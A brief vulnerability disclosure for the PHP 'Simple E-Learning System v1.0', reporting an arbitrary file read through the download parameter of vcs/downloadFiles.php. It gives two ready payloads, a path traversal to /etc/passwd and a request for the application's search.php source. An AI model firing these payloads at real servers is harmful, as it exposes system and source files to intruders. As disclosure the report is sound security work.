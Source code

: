 # Simple E-Learning System v1.0 by oretnom23 has file disclosure

vendor:https://www.sourcecodester.com/php-simple-e-learning-system-source-code 

Vulnerability File: vcs/downloadFiles.php?download=

Vulnerability location: vcs/downloadFiles.php?download=, download

Payload1: vcs/downloadFiles.php?download=../../../../../../../../../etc/passwd

![image](https://github.com/ImaizumiYui/pic/blob/main/readetc.png)

Payload2: vcs/downloadFiles.php?download=./search.php

![image](https://github.com/ImaizumiYui/pic/blob/main/readsearch.png)

